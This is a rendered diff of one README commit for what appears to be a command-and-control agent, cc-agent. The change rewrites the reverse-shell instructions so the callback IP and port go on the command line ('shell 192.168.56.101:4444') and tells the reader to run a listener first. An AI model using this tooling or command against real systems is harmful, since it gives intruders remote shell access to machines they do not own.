

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

Commit message:
Update README.md reverse shell section
Update the reverse shell section with new information to start the shell

````diff
--- a/README.md
+++ b/README.md
@@ -58,9 +58,9 @@ python client.py "ipconfig"
 ```
 
 To initiate a reverse shell session, submit the special "shell" command:
-The reverse shell will be initated to the ip specify in the main.go source code you will need to replace it in your source code. The name of variable is listernerAddress. See the build section for more information
+Replace the ip after the shell with your call back ip the port can be changed too.
 ```bash
-python client.py "shell"
+python client.py "shell 192.168.56.101:4444"
 ```
 
 Ensure you have a listener running on the specified port before initiating the reverse shell:
````
